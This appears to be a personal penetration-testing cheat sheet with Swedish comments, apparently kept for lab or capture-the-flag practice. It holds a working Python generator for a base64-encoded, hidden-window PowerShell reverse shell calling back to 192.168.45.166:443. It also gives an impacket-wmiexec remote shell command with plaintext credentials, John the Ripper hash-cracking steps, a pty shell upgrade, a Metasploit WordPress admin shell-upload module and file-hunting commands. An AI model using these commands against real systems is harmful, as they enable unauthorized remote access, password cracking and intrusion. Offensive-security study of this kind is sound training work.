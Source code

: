 ```yaml
---
{"dg-publish":true,"permalink":"/4-misc/","updated":"2024-01-05T14:11:37.967+01:00"}
---
```


---------------
### Windows Encoded Revshell Python Script:
```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.166",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print(cmd)
```
### Remote shell with PSExec:
```
sudo /usr/bin/impacket-wmiexec joe:Flowers1@172.16.231.11
```
### John hash-cracking:
``` bash
#Ta reda på hashtypen
hashid -e -j '<hash>'
hash-identifier <hash>

#Cracka med dictionary
john --wordlist=rockyou.txt --rules=regelnamn --format=<hashidformat> hash.txt

#Visa lösenordet igen
john --show pass.txt
```
### Importera bash med pty med python:
``` bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
### WordPress-login Shell:
``` bash
sudo msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
```
### Windows file locate in CMD:
``` powershell
cd C:/ && dir "<filename>" /s /b
```
### Windows file locate in PowerShell:
``` powershell
#General file/directory locate
Get-ChildItem -Path C:\ -Include "<name>" -File -Recurse -ErrorAction SilentlyContinue

#Locate specific file-format
Get-ChildItem -Path C:\ -Include *.<format> -File -Recurse -ErrorAction SilentlyContinue

#Locate flag.txt from current dir:
Get-ChildItem -Path .\ -Include "flag.txt" -File -Recurse -ErrorAction SilentlyContinue
```